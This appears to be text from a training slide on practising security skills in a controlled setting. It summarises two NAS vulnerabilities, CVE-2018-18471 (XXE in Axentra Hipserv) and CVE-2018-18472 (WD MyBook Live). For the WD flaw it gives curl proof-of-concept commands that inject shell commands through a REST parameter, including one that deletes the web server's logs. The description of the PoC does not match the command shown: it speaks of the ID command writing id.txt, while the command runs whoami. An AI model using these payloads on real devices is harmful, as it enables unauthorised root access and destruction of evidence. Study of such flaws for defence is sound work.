

Building Capabilies and Skills in a Safe Controlled Environment.
“How do I exploit…. ?”
# CVE-2018-18471 – XXE and Unauthenticated Remote Command Execution in Axentra Hipserv NAS firmware. An XML External Entity (XXE) attack is a type of security vulnerability that occurs when an XML parser processes a malicious XML document containing a reference to an external entity. This can lead to various attacks, including data disclosure, denial of service, and server-side request forgery (SSRF)
CVE-2018-18472 –WD MyBook Live Unauthenticated Remote Command Execution

WD MyBook Live and some models of WD MyCloud NAS contain a remotely exploitable vulnerability that lets anyone run commands on the device as root. The vulnerability exists in the language change and modify functionality in the REST API, the following PoC demonstrates this flaw.

PoC:
curl -kX GET -d ‘bim=param’ https:///panel/rest/configuration
curl -kX GET -d ‘bim=param`whoami`’ https:///panel/rest/configuration

The poc will create a id.txt file in the webroot containing the output of the ID command. The file can be removed using:
curl -kX GET -d ‘bim=param`rm -rf /var/apache2/logs/*`’ https:///panel/rest/configuration